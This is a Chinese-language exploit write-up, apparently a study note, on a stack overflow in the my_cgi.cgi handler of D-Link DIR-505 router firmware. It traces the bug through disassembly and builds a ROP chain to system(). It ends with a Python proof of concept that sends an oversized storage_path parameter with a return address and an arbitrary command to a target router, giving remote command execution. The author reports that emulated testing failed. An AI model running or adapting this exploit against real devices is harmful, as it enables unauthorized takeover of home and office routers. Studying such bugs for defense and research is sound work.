


# 一：固件分析
## 固件下载
```
ftp://ftp2.dlink.com/PRODUCTS/DIR-505/REVA/DIR505_FIRMWARE_1.08B10.ZIP

```
## 漏洞描述


## 漏洞的成因分析
### 1:定位漏洞文件
```
//切换到固件根目录
find ./ -name '*.cgi'  //随后找到漏洞文件my_cgi.cgi
```
### 2:定位漏洞位置
#### 根据漏洞描述，my_cgi.cgi在处理storage_path的时候出现了问题，我们采用搜串的方法找到storage_path，之后交叉引用查看所有引用位置。结果发现存在八处位置对其进行了引用，当然可以一个个去看，这里建议可以使用Ghidra进行反编译查看，肯能会加快分析的速度。第二种方法就是书中说的，用猜的，get_input_entries这个函数名结合漏洞描述，确实很值得怀疑。下面先用Ghidra简单的看下。


#### 使用书中的脚本文件验证猜测
```
#!/bin/bash
# run_cgi.sh
INPUT=`python -c "print 'storage_path='+'B'*477472+'A'*4"`
LEN=$(echo -n "$INPUT" | wc -c)
echo $LEN
PORT="1234"
cp $(which qemu-mips-static) ./qemu
echo "$INPUT" | chroot ./ ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="multipart/form-data" -E SCRIPT_NAME="common" -E REQUEST_METHOD="POST" -E REQUEST_URI="/my_cgi.cgi" -g $PORT ./usr/bin/my_cgi.cgi
echo 'run ok'
rm -f ./qemu
```
需要注意的就是my_cgi.cgi使用的是大端序，所以我们在复制qemu的时候要选用大端文件。对于书中描述的SCRIPT_NAME不能为HNAP1和CONTENT_TYPE不能为multipart/form-data的说明一知半解，但是通过动态调试证实确实如此，在main函数中分别有对其的判断，如果是这两个值将不会对storage_path做出内存拷贝的行为，自然就不会有越界的漏洞出现。

#### 具体分析get_input_entries函数
综上所述，我们已经了解到漏洞函数是get_input_entries，首先我们先分析下此函数的参数是什么？下面是main函数调用get_input_entries的位置：
```
.text:0040A60C                 addiu   $s0, $sp, 0x749A0+var_74948
.text:0040A610                 la      $t9, memset
.text:0040A614                 li      $a2, 0x7490A     # n
.text:0040A61C                 move    $a0, $s0         # s
.text:0040A620                 jalr    $t9 ; memset
.text:0040A624                 move    $a1, $zero       # c
.text:0040A628                 lw      $gp, 0x749A0+var_74988($sp)
.text:0040A62C                 move    $a0, $s0         # pbuffer
.text:0040A630                 la      $t9, get_input_entries
.text:0040A634                 nop
.text:0040A638                 jalr    $t9 ; get_input_entries
.text:0040A63C                 move    $a1, $s2

```
从这段代码可以看出先使用memset初始化了一个指定大小的堆栈空间（应该是个局部变量数组），之后将其作为第一个参数传入函数get_input_entries，至于第二个参数是什么，我是采用调试的方法得到其就是我们传入的storage_path的长度，这里漏洞成因就初步展现了，由于这个空间是指定大小0x7490A，而storage_path是利用者可控的，如果将storage_path中的内容全部转存到堆栈空间中就有可能会导致访问越界。

## 漏洞利用
本次采用的漏洞利用方式依然是System/Exec，这里程序由于使用的是字节转储到堆栈中的方式，而其转储的长度是指定的CONTENT_LENTH,所以不用担心0x00造成的截断，构造ROP的时候直接在主模块查找即可。
### 构造ROP
在主模块搜索对system函数的调用，发现00405B1C处符合从堆栈中取值并随后调用system函数的gadgets。
```
.text:00405B1C                 la      $t9, system
.text:00405B20                 la      $s1, 0x440000
.text:00405B24                 jalr    $t9 ; system
.text:00405B28                 addiu   $a0, $sp, 0x78+var_50  # command
```
最终确定ROP链调用如下：



### 最终POC
```
#!/usr/bin/env python
import sys
import urllib2
try:
    target=sys.argv[1]
    command=sys.argv[2]
except:
    print "Usage:%s<target><command>" % sys.argv[0]
    sys.exit(1)
url="http://%s/my_cgi.cgi" % target
buf="storage_path="
buf+="D"*477472
buf+="\x00\x40\x5b\x1c"
buf+="E"*0x28
buf+=command
buf+="\x00"
req=urllib2.Request(url,buf)
print urllib2.urlopen(req).read()

```
### 测试
本次由于在模拟路由器运行的时候，firmadyne给出的网关始终登不上去，所以本次测试未果，但是大致的漏洞原理我们已经掌握！
